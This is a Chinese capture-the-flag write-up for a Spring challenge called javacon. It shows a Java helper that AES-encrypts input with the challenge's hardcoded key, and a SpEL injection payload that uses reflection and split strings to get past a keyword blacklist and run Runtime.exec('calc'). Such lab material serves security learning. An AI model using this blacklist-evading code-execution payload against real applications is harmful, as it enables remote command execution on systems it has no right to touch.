 # javacon

贴一下如何调试jar文件

![image-20220110150643062](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220110150643062.png)

然后运行的时候

```
java -Xdebug -Xrunjdwp:transport=dt_socket,address=5005,server=y,suspend=y -jar challenge-0.0.1-SNAPSHOT.jar
```

正常访问即可。

## 0x01 源码

spring的配置

![image-20220110150748592](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220110150748592.png)

有黑名单过来和用户的账号密码，这个key我记得不错好像是`shiro`的。

![image-20220110151100449](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220110151100449.png)

spel的解析表达。百度知道有spel代码注入。

## 0x02 解题

`Runtime.getRuntime().exec("calc")` 这是

![image-20220110151708371](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220110151708371.png)

```java

package demo;

import java.util.Base64;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class exp {

    public exp() {
    }

    public static String encrypt(String key, String initVector, String value) {
        try {
            IvParameterSpec iv = new IvParameterSpec(initVector.getBytes("UTF-8"));
            SecretKeySpec skeySpec = new SecretKeySpec(key.getBytes("UTF-8"), "AES");
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5PADDING");
            cipher.init(1, skeySpec, iv);
            byte[] encrypted = cipher.doFinal(value.getBytes());
            return Base64.getUrlEncoder().encodeToString(encrypted);
        } catch (Exception var7) {
            var7.printStackTrace();
            return null;
        }
    }

    public static String decrypt(String key, String initVector, String encrypted) {
        try {
            IvParameterSpec iv = new IvParameterSpec(initVector.getBytes("UTF-8"));
            SecretKeySpec skeySpec = new SecretKeySpec(key.getBytes("UTF-8"), "AES");
            Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5PADDING");
            cipher.init(2, skeySpec, iv);
            byte[] original = cipher.doFinal(Base64.getUrlDecoder().decode(encrypted));
            return new String(original);
        } catch (Exception var7) {
            var7.printStackTrace();
            return null;
        }
    }

    public static void main(String[] args){
        System.out.println(encrypt("c0dehack1nghere1","0123456789abcdef","ssss"));
    }
}

```

SPEL注入常用的姿势

```
引用其他对象:#{car}
引用其他对象的属性：#{car.brand}
调用其它方法 , 还可以链式操作：#{car.toString()}

其中属性名称引用还可以用符 号 如 ： 符号 如：符号如：{someProperty}
除此以外在SpEL中，使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

#{T(java.lang.Math)}
1
#{T(java.lang.Math)}
T()运算符的结果会返回一个java.lang.Math类对象。
```

```java
System.out.println(encrypt("c0dehack1nghere1","0123456789abcdef","#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String)).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),\"calc\")}"));
```



![image-20220110160812808](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220110160812808.png)

结束了，就是一个反射拿到对象然后命令执行即可。

`T(String) == String.class`